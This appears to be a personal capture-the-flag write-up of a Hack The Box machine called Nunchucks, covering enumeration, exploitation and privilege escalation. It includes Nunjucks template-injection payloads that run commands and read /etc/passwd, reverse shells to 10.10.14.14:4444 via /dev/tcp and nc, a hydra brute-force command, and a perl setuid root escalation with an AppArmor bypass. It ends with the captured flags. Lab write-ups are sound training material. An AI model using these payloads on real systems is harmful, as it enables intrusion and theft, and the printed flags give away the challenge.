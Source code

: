 # Enumeration
## Nmap
Started of with a simple nmap scan which showed:
_PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel_
A UDP portscan showed:
_5353/udp open|filtered zeroconf_
this article seemed potentially helpful (https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks)
## Directory / Subdomain Discovery
`wfuzz -H "Host: FUZZ.nunchucks.htb" -w tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt https://nunchucks.htb`
I quickly realised that there was something interesting going on, most likely connected to the _zeroconf_ UDP service. After osme help, it appeared using the filter `--hh 30587` filtered out all of the non-useful ones.
Result was the usbdomain _store_. So Iproceeded to add this to /etc/hosts and moved on.
## Other
`hydra -l admin -P tools/SecLists/Passwords/2020-200_most_used_passwords.txt ssh://10.10.11.122:22 -v`

`searchsploit nginx `

## Burp
Submitting the email 'application' form on store.nunchucks.htb, shows a POST request with a field in curly brackets (see store.nunchucks_email_post) --> indicating json format. Inspecting the HTML after submitting the request shows that it is stored in the HTML on the website, but the submitted JS was not executed.

Sending the request to the repeater I followed the (https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks) article and initially tried the following sequence `"email":"${{<%[%'"}}%\"`. This returned an error, which meant SSTI is most likely possible. Next I therefore tried `"email":"{{7*7}}"` which returned 49. 
I proceeded to the Nunjucks part of the article and tried the first payload they had there `{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}` but this simply returned an error in the repeater. Replacing the " with ' simply showed a _502 bad gateway_ error. 

Looking further (http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine) I found that escaping the double quotes is possible by using backslashes. So I proceeded to use the following payload `"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}"` and it worked.

Looking at it this, it appears there is an MySQL server running. I am certain if we can get a shell up and running that we will be able to get something out of this server.


#######################


# Exploit
## Finding Vulnerability - SSTI
Proceeding trying to get a shell, I use the code `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.14/4444 0>&1\"')\")()}}`, and set up a nc listener. Sending this through burp with the escape characters did not work...
Trying a different reverse shell code from (https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4444 >/tmp/f')\")()}}` abd we got a shell!

## Enumeration 2
- user = _David_
- directory = _/var/www/store.nunchucks_. User flag was found by cd and then reading it. 
- system info = _$ uname -a
Linux nunchucks 5.4.0-86-generic #97-Ubuntu SMP Fri Sep 17 19:19:40 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux_
Looking around I thoought a potential abuse could be mysql, but I wanted to check for other things too.
I decided to run linpeas, as the mysql had a tag _nonexistent_.
### Enum Results
- Vulnerable to CVE-2021-4034  
- cron jobs: -rwxr-xr-x   1 root root   813 Feb 25  2020 man-db, popularity-contest, update-notifier-common
- sockets
- useful software = /usr/bin/perl
- MySQL (root/toor, root/root, root/NOPASS)
- cat /etc/pam.d/passwd
- SGID -rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
- backups in /opt: /opt/web_backups/backup_2021-09-26-1632618416.tar
---> these are both group writeable

Looking in the /opt directory it appreas there is a pearl file which creates backus of the website to the web_backups directory. It has root as owner but David can execute it. This will be a simple SUID exploit.
This part of the code was particularly interesting:
`POSIX::setuid(0);`
**(This)[https://gtfobins.github.io/gtfobins/perl/]** is quite good for the privesc and we will be using `/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` . But it appears a shell cannot be created (as seen from error message at beggingin /bin/bash did not work). Commands such as `whoami` can however still be executed. After looking for some help, AppArmor `/etc/apparmor.d` appears to be containing some information 

#######################


# Privilege Escalation
SUID bit set to perl POSIX --> a perl script ran as root which runs backups of the web server that David has access to.
AppArmor bug (https://bugs.launchpad.net/apparmor/+bug/1911431) will be exploited.
## Exploit
`$ echo "#!/usr/bin/perl" > pwn.pl`
`$ echo "use POSIX qw(setuid);" >> pwn.pl`
`$ echo "POSIX::setuid(0);" >> pwn.pl`
`$ echo 'exec "/bin/bash";' >> pwn.pl`

#######################


# User Flag
53b4cdecc09c6e78dcffd3fa5ef24dd4
# System Flag
95f73b012b1a8d2894df2f164409df20

# thoughts
_csrf token --> 
nunjucks
responder?
sudo /usr/share/responder/Responder.py -I tun0 -Pv
# new things learnt
 - wfuzz
 - autorecon (needs downloading/cloning from github)
 - AppArmor
 - Shebang